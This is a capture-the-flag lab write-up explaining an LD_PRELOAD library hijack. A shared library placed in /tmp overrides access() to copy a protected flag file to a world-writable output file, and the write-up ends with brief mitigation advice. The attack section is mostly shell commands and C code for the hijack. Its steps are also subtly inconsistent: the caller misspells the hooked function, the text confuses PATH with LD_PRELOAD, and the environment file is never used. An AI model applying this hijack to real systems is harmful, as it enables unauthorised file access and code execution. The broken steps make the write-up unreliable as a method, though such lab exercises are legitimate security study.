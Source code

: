 # CTF 4

The main goal of this exploit was to, using environmental variables, be able to access a file that, other way, would have denied access. The main strategy here is to, instead of simply creating a script to read the file that has the flag, we create a library which is defined in the environmental variable $PATH. With that, we can capture the flag.

## Step 1. The environmental variables

The first step is to preload the future library in the list of environmental variables.

```sh
echo 'LD_PRELOAD=/tmp/lib PATH=/tmp' > env 
```

We will also create the file that will have the output in the tmp folder and give it all the permission.

```sh
touch output.txt 
chmod 777 output.txt 
```

## Step 2. Creation of the library

The second step is to create the library itself (also in the tmp folder). This library is responsible for acessing the file and put the output (the flag) in another file (output.txt).

```sh
cat > lib.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int access ()
{
    system("/bin/cat /flags/flag.txt > /tmp/output.txt");
    return 0;
}
```

This command will create a file lib.c that will access the file and print it to other file

### Step 2.1. The Compilation

Now, this file that we created have to be compiled as a library and give it all the permissions:

```sh
gcc -fPIC -g -c lib.c 
gcc -shared -o lib lib.o -lc
chmod 777 lib
```

## Step 3. The Execution

Now, with the library that have all the permissions, we need to execute it. For that, we need to create a c script that call this library and, with that, be able to get the flag.

```sh
cat > exec.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main ()
{
    acess();
    return 0;
}
```

Now it is time to compile and execute:

```SHELL
gcc exec.c -o exec
./exec
```
## Step 4. The Output

And the final output in the output.txt is:

**flag{c26b13e1f19414fd9a50a0e37197382c}**


## The Explored Vulnerability

- The vulnerability that was exploited is the fact that the /tmp folder had very open privileges (such that any process could write to it). This allowed the attacker to create a library in /tmp that could be preloaded into other programs, giving the attacker the ability to execute arbitrary code.

## What could be used to avoid this Vulnerability

- To make this system more secure, the programmer should restrict the privileges on the /tmp folder so that only authorized users can write to it. Additionally, the programmer should avoid using libraries in /tmp unless absolutely necessary.

